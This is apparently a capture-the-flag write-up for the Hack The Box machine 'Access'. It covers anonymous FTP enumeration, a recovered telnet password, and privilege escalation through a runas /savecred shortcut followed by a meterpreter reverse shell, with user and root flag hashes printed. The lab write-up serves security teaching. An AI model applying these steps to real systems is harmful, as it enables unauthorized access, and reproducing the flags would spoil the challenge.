 # Access
>Author : Xyan1d3
>Date : 12th July 2021
>IP : 10.10.10.98
>OS : Windows
>Difficulty : Easy
# Initial Enumeration
## Nmap
```sql
# Nmap 7.91 scan initiated Mon Jul 12 20:30:41 2021 as: nmap -vvv -p 23,21,80 -A -oN nmap/rustscan 10.10.10.98
Nmap scan report for 10.10.10.98
Host is up, received echo-reply ttl 127 (0.062s latency).
Scanned at 2021-07-12 20:30:42 IST for 188s

PORT   STATE SERVICE REASON          VERSION
21/tcp open  ftp     syn-ack ttl 127 Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 425 Cannot open data connection.
| ftp-syst: 
|_  SYST: Windows_NT
23/tcp open  telnet? syn-ack ttl 127
80/tcp open  http    syn-ack ttl 127 Microsoft IIS httpd 7.5
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: MegaCorp

Uptime guess: 0.003 days (since Mon Jul 12 20:29:09 2021)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=259 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 21/tcp)
HOP RTT      ADDRESS
1   60.94 ms 10.10.14.1
2   60.88 ms 10.10.10.98
```

## FTP Enumeration
We use ftp `anonymous` login and find out that we have two files.
```python
┌─[Magisk@Xyan1d3]─[10.10.14.18]─[~/htb/access]
└──╼ # ftp 10.10.10.98
Connected to 10.10.10.98.
220 Microsoft FTP Service
Name (10.10.10.98:root): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
08-23-18  09:16PM       <DIR>          Backups
08-24-18  10:00PM       <DIR>          Engineer
226 Transfer complete.
ftp> cd Backups
250 CWD command successful.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
08-23-18  09:16PM              5652480 backup.mdb
226 Transfer complete.
ftp> cd ../Engineer
250 CWD command successful.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
08-24-18  01:16AM                10870 Access Control.zip
226 Transfer complete.
```

We see that we have a `backup.mdb` which is an Microsoft Access Database File and an `Access Control.zip` which is an encrypted zip file.

Classic `zip2john.py` and `john` does not work on the `Access Control.zip`.
**We have to download the backup.mdb file from ftp by using binary mode.**

![[Pasted image 20210712225510.png]]

We now could use this credentials to unzip the zip file.
```python
┌─[Magisk@Xyan1d3]─[10.10.14.18]─[~/htb/access/ftp/engineer]
└──╼ # ls -l
total 328
-rw-r--r-- 1 root root 271360 Aug 24  2018 'Access Control.pst'
-rw-r--r-- 1 root root  10870 Jul 12 20:32 'Access Control.zip'
-rw-r--r-- 1 root root  43003 Jul 12 20:43  zip_hash
```
On unzipping we get an `Access Control.pst` which is an outlook mailbox backup.
We restore it on our own `evolution` sandbox mail client and get the mails.
![[Pasted image 20210712225722.png]]

We see that we have a credential pair.

# Initial FootHold as security
We have the credentials from the mailbox which we could use.

|Username|Password|
|--|--|
|security|4Cc3ssC0ntr0ller|

We use these credentials on the `23/tcp` or `telnet` to login to the server.
![[Pasted image 20210712230031.png]]

## Getting the user Flag
```python
C:\Users\security\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is 9C45-DBF0

 Directory of C:\Users\security\Desktop

07/12/2021  05:59 PM    <DIR>          .
07/12/2021  05:59 PM    <DIR>          ..
08/21/2018  11:37 PM                32 user.txt
               2 File(s)        784,416 bytes
               2 Dir(s)  16,745,127,936 bytes free

C:\Users\security\Desktop>type user.txt
ff1f3b48913b213a31ff6756d2553d38
```

# Root Escalation
We visit the `Public` user's desktop and find out that we have a lnk file named `ZKAccess3.5 Security System.lnk`.
```python
C:\Users\Public\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is 9C45-DBF0

 Directory of C:\Users\Public\Desktop

08/22/2018  10:18 PM             1,870 ZKAccess3.5 Security System.lnk
               1 File(s)          1,870 bytes
               0 Dir(s)  16,745,127,936 bytes free

C:\Users\Public\Desktop>type "ZKAccess3.5 Security System.lnk"
LF@ 7#P/PO :+00/C:\R1M:Windows:M:*wWindowsV1MVSystem32:MV*System32X2P:
                                                                       runas.exe:1:1*Yrunas.exeL-KEC:\Windows\System32\runas.exe#..\..\..\Windows\System32\runas.exeC:\ZKTeco\ZKAccess3.5G/user:ACCESS\Administrator /savecred "C:\ZKTeco\ZKAccess3.5\Access.exe"'C:\ZKTeco\ZKAccess3.5\img\AccessNET.ico%SystemDrive%\ZKTeco\ZKAccess3.5\img\AccessNET.ico%SystemDrive%\ZKTeco\ZKAccess3.5\img\AccessNET.ico
```

We see that we have a `runas` command which runs `Access` as an administrator.
`runas` is actually like linux `sudo` but instead of running it on the same terminal it runs as another instance.
`Windows\System32\runas.exe C:\ZKTeco\ZKAccess3.5G /user:ACCESS\Administrator /savecred "C:\ZKTeco\ZKAccess3.5\Access.exe`

We could do something similar to this and for this I will be using `metasploit`.
I will be generating an `msfvenom` payload with `windows/x64/meterpreter/reverse_tcp` and transfered into the box to `C:\Temp\magisk.exe`

![[Pasted image 20210712231732.png]]

## Getting the root Flag
```python
meterpreter > dir
Listing: C:\Users\Administrator\Desktop
=======================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  282   fil   2018-08-22 02:13:14 +0530  desktop.ini
100666/rw-rw-rw-  32    fil   2018-08-22 03:37:24 +0530  root.txt

meterpreter > cat root.txt
6e1586cc7ab230a8d297e8f933d904cf
```